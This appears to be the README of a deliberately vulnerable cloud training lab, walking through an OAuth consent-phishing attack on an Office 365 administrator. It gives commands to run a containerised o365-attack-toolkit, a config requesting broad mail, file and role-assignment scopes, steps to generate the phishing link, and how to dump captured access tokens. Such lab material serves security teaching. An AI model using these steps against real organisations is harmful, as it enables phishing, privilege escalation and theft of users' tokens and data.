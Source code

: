 # Vulnerable Application Information

In this vulnerable application, the attacker's objective is to escalate their privileges by deceiving the administrator into granting the attacker's defined OAuth permission. To execute this, the attacker must craft a phishing URL, which will be sent to the administrator.

For a comprehensive view of the attack, we'll simulate the victim's consent process. This involves clicking on the phishing URL and using the credentials provided upon initiating the vulnerable application. Once the administrator successfully logs in and grants the permissions, the application hosted by the attacker redirects the access token. To streamline the process, I've containerized the o365-attack-toolkit (https://github.com/mdsecactivebreach/o365-attack-toolkit).

To obtain the container, run the following command:
```shell
docker pull cumulonimbuscloud/o365-attack-toolkit
```

To launch the container, execute:
```shell
docker run --network='host' -v /tmp:/tmp -it --entrypoint /bin/bash cumulonimbuscloud/o365-attack-toolkit:latest
```

Then, navigate to /go/src/o-365-toolkit and input the following content:
```shell
cat > template.conf
    [server]
    host = 127.0.0.1
    externalport = 30662
    internalport = 8080

    [oauth]
    clientid = "<Application ID of the created application>"
    clientsecret = "<Secret of the created application>"
    scope = "<OAuth scopes you wish to request, e.g. offline_access contacts.read user.read mail.read mail.send files.readWrite.all files.read files.read.all openid profile AppRoleAssignment.ReadWrite.All>"
    redirecturi = "http://localhost:30662/gettoken" 
```

Activate the tool with ./o365-attack-toolkit. Visit http://127.0.0.1:8080/ and spot the red button at the top right. This button copies the phishing link to the clipboard. Refer to the accompanying PDF for dynamic consent and the option to append additional required permissions to the phishing link. By phishing the user and adding oneself to the administrator group, the attack can be executed.

Using the volume mapping established earlier, it's feasible to access the SQLite file on your host. This is achievable through file dumping using sqlite3. You'll find the tokens there!





## ⚠️ Warning

**Important:** Details regarding the attack, safeguards, and methods for identifying this vulnerability, weakness, or misconfiguration are available in the PDF document.

---
